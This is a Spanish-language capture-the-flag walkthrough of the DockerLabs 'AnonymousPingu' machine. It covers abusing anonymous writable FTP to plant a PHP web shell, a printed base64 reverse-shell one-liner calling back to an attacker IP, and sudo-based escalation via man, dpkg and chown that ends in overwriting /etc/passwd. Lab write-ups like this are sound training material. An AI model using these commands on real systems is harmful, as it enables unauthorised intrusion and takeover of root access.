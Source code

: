 # Maquina AnonymousPingu - DockerLabs.es

![alt text](ImagenesMaquinaAnonymousPingu/image-2.png)

Verificar que la maquina este desplegada correctamente

![alt text](ImagenesMaquinaAnonymousPingu/image-1.png)

Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.

![alt text](ImagenesMaquinaAnonymousPingu/image.png)

A continuación, realizamos un escaneo de la IP utilizando Nmap.

![alt text](ImagenesMaquinaAnonymousPingu/image-3.png)

Observamos que el puerto 21 y 80 estan abiertos. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.

![alt text](ImagenesMaquinaAnonymousPingu/image-4.png)

Vemos que el puerto 21 esta corriendo un FTP en su version 3.0.5 y el 80 un Apache 2.4.58.

Al acceder a través del navegador, observaremos lo siguiente:

![alt text](ImagenesMaquinaAnonymousPingu/image-5.png)

Al aplicar fuzzing, descubriremos algunos directorios interesantes, como `upload`.

![alt text](ImagenesMaquinaAnonymousPingu/image-6.png)

![alt text](ImagenesMaquinaAnonymousPingu/image-7.png)

Observamos que el puerto 21 tiene habilitado el acceso FTP con el usuario por defecto `anonymous`, sin requerir contraseña. Al conectar mediante FTP, podemos ver varios directorios, entre ellos uno llamado upload.

Al conectarnos por FTP usando ftp ip-servidor con el usuario `anonymous` y listar el contenido con `ls`, confirmamos que los archivos coinciden con los encontrados durante el fuzzing. Además, notamos que tenemos permisos de escritura en el directorio upload.

![alt text](ImagenesMaquinaAnonymousPingu/image-8.png)

A continuación, nos moveremos al directorio upload con el comando cd upload y subiremos un archivo de prueba para verificar que es el mismo directorio visible en la web.

Primero, creamos un archivo de prueba con el comando `touch prueba.txt`, luego insertamos información en él con `echo "hola" > prueba.txt`.

Desde el prompt de FTP, mientras estamos dentro del directorio upload, subiremos el archivo `prueba.txt` utilizando el comando `put`. El comando completo sería: `put /home/kali/Desktop/DockerLabs/Easy-Terminar/AnonymousPingu/prueba.txt prueba.txt`.

![alt text](ImagenesMaquinaAnonymousPingu/image-9.png)

Confirmamos que el archivo se subió con éxito.

Ahora, al acceder a la web y navegar a la ruta upload, podemos ver el archivo que subimos mediante FTP.

![alt text](ImagenesMaquinaAnonymousPingu/image-10.png)

![alt text](ImagenesMaquinaAnonymousPingu/image-11.png)

A continuación, subiremos una shell en PHP, o algún otro archivo que permita la ejecución de comandos.

Creamos un archivo llamado `pwned.php` y lo subimos al directorio upload utilizando el comando `put`, de la misma manera que hicimos con el archivo `.txt` anteriormente.

![alt text](ImagenesMaquinaAnonymousPingu/image-12.png)

Ahora, al abrir el archivo `pwned.php` desde el navegador y enviar el parámetro cmd con el comando `whoami`, confirmamos que podemos ejecutar comandos en el servidor.

![alt text](ImagenesMaquinaAnonymousPingu/image-13.png)

A continuación, enviaremos una reverse shell a nuestra máquina atacante.

Primero, convertiremos la reverse shell a formato base64.

![alt text](ImagenesMaquinaAnonymousPingu/image-14.png)

Nos pondremos a la escucha en el puerto 4444 utilizando Netcat con el comando `nc -nvlp 4444`.

![alt text](ImagenesMaquinaAnonymousPingu/image-15.png)

Luego, ejecutaremos el siguiente comando para decodificar y ejecutar la reverse shell en formato base64:

`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=" | base64 -d | bash`

Presionamos Enter para iniciar la reverse shell.

![alt text](ImagenesMaquinaAnonymousPingu/image-16.png)

Y vemos que ya estamos dentro.

![alt text](ImagenesMaquinaAnonymousPingu/image-17.png)

## Tratamiento de la TTY

**Para trabajar de manera mas cómoda haremos lo siguiente:**
Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!

## Escadala de Privilegios

Al ejecutar el siguiente comando:

`cat /etc/passwd | grep "sh$"`

Podemos ver una lista de usuarios. Nos centraremos en los usuarios gladys y pingu.

![alt text](ImagenesMaquinaAnonymousPingu/image-18.png)

Al ejecutar `sudo -l`, observamos que tenemos permiso para ejecutar el binario `/usr/bin/man` como el usuario `pingu`, sin necesidad de proporcionar una contraseña.

![alt text](ImagenesMaquinaAnonymousPingu/image-19.png)

Ahora intentaremos escalar privilegios al usuario `pingu` explotando los permisos de sudo sobre el binario `/usr/bin/man`. Lo haremos de la siguiente manera:

![alt text](ImagenesMaquinaAnonymousPingu/image-20.png)

![alt text](ImagenesMaquinaAnonymousPingu/image-21.png)

Ahora vemos que somos el usuario `pingu`.

![alt text](ImagenesMaquinaAnonymousPingu/image-22.png)

Al ejecutar `sudo -l` con el usuario pingu, veremos lo siguiente:

Podemos ejecutar los binarios `/usr/bin/nmap` y `/usr/bin/dpkg` como el usuario `gladys`, sin necesidad de proporcionar una contraseña.

![alt text](ImagenesMaquinaAnonymousPingu/image-23.png)

Intentaremos explotar los permisos del binario /usr/bin/dpkg de la siguiente manera:

![alt text](ImagenesMaquinaAnonymousPingu/image-24.png)

![alt text](ImagenesMaquinaAnonymousPingu/image-25.png)

![alt text](ImagenesMaquinaAnonymousPingu/image-26.png)

Al realizar la explotación, confirmamos que ahora hemos cambiado al usuario `gladys`.

A continuación, al ejecutar `sudo -l` con el usuario `gladys`, veremos que tenemos permiso para ejecutar el binario `/usr/bin/chown`.

![alt text](ImagenesMaquinaAnonymousPingu/image-27.png)

Al consultar GTFObins, observamos que podemos utilizar el binario `/usr/bin/chown` para cambiar los permisos de un archivo mediante el grupo y el usuario con el que estamos logueados.

![alt text](ImagenesMaquinaAnonymousPingu/image-28.png)

Al ejecutar el comando sudo chown $(id -un):$(id -gn) /etc/passwd, podremos observar los cambios en los propietarios y grupos del archivo /etc/passwd.

![alt text](ImagenesMaquinaAnonymousPingu/image-29.png)

Ahora, podemos modificar el archivo `/etc/passwd` para cambiar la contraseña del usuario root. Para ello, crearemos una nueva contraseña utilizando `openssl passwd` y reemplazaremos la `x` en la entrada de root con el hash generado.

Primero, crearemos una copia de seguridad del archivo `/etc/passwd` actual y la transferiremos a nuestra máquina atacante. Luego, sustituiremos la `x` en la línea correspondiente al usuario root con el hash de contraseña que hemos generado.

![alt text](ImagenesMaquinaAnonymousPingu/image-30.png)

![alt text](ImagenesMaquinaAnonymousPingu/image-31.png)

A continuación, subiremos el archivo modificado passwd a la máquina víctima utilizando FTP, dado que no contamos con `wget` en dicha máquina.

![alt text](ImagenesMaquinaAnonymousPingu/image-32.png)

Nos dirigimos a la carpeta `upload` y luego ejecutamos el siguiente comando para sobrescribir el archivo `/etc/passwd` con el archivo passwd que hemos subido:

`cat passwd > /etc/passwd`

![alt text](ImagenesMaquinaAnonymousPingu/image-33.png)

Ahora, accedemos como root utilizando la contraseña para la cual generamos el hash con `openssl passwd`. Con esto, hemos obtenido acceso con privilegios de root.

![alt text](ImagenesMaquinaAnonymousPingu/image-34.png)
